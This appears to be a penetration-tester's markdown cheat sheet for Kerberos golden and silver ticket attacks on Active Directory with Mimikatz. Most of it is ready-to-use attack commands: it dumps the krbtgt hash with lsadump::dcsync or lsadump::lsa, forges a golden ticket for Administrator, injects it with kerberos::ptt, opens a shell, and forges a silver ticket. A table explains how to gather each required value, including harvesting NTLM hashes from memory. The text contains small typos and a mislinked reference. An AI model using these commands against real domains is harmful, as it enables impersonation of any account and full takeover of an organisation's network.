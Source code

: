 A golden ticket is a TGT crafted with the KRBTGT AD serivce's password, using which you can imitate any account on the entire AD.
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
##### Requirements
Admin level access to any user on the AD

##### Dumping the krbtgt hash
Use Mimikatz to dump the hash:
```
./mimikatz.exe
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::dcsync /user:krbtgt@DOMAIN  // If you do not have Domain Controller privelege, use this.
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```

##### Forging a Golden ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:MIMIKATZ_OUTPUT_SID /krbtgt:KRBTGT_NTLM
```
Note: the Key Distribution Center (`KDC`) will only check if the  `/user` -specified value is correct if the ticket is less than 20 minutes old. So as long as the ticket is older than 20 minutes, the specified user does not even need to exist.
`/sid`: The domain's SID (obtain via mimikatz output, or by using `Get-LocalUser -name krbtgt | select sid` and removing the last identifier (RID))
`/krbtgt`: The KRBTGT service's NTLM hash.

The ticket will now be stored in the current directory as "ticker.kirbi".

##### Exploiting using the Golden ticket
Load the ticket into memory:
```
kerberos::ptt TICKET_FILE
```
On another command prompt, check using:
```
klist // If it has a TGT, it has succeeded.
```
If you have RDP, create a remote shell:
```
misc::cmd
```
Otherwise, you can access whatever machine you want to as the Administrator via normal CMD, as long as you have the TGT active.

#### Silver tickets
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
Silver tickets are generated the same way as golden tickets, but with a few extra parameters:

```
kerberos::golden /sid:DOMAIN_SID /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:TARGET_USER_NTLM /user:TARGET_USER
```


| Argument   | Description                                         | Example                                    | Command                                                          |
| ---------- | --------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- |
| `/sid`     | The domain SID (the user SID without the last part) | `S-1-5-21-1987370270-658905905-1781884369` | `whoami /user`                                                   |
| `/domain`  | The domain name                                     | `corp.com`                                 | `Get-Domain`                                                     |
| `/ptt`     | Enable passing the ticket                           |                                            |                                                                  |
| `/target`  | The full name of the target machine                 | `web04.corp.com`                           | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/service` | The protocol of the SPN                             | `http`                                     | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/rc4`     | The NTLM hash of the SPN                            | `4d28cf5252d39971419580a51484ca09`         | `sekursla::logonpasswords`                                       |
| `/user`    | The user, can be any.                               | `jeff`                                     | `Get-DomainUser`                                                 |
